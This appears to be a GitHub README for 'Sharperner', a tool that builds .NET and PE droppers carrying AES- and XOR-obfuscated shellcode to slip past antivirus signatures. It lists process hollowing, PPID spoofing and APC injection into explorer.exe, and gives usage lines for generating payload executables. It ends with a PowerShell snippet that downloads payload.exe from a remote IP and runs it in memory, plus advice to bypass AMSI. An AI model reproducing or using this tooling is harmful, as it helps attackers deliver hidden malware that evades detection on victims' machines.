

# Sharperner
**Sharperner** is a tool written in CSharp that generate .NET dropper with AES and XOR obfuscated shellcode. Generated executable can possibly bypass signature check but I cant be sure it can bypass heuristic scanning. 



## Features
### PE binary
* Process Hollowing
* PPID Spoofing
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code :)

### .NET binary
* AES + XOR encrypted shellcode
* APC Process Injection (explorer.exe)
* Random function names
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code :)

## Usage
```
/file       B64,hex,raw shellcode
/type       cs,cpp
/out        Output file Location (Optional)

Example:
Sharperner.exe /file:file.txt /type:cpp
Sharperner.exe /file:file.txt /out:payload.exe
```

## Suggestion
To avoid touching the disk, Generated .NET executable can be loaded reflectively with powershell. AMSI is the enemy now, [amsi.fail](https://amsi.fail) ftw!
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[TotallyNotMal.Program]::Main()
```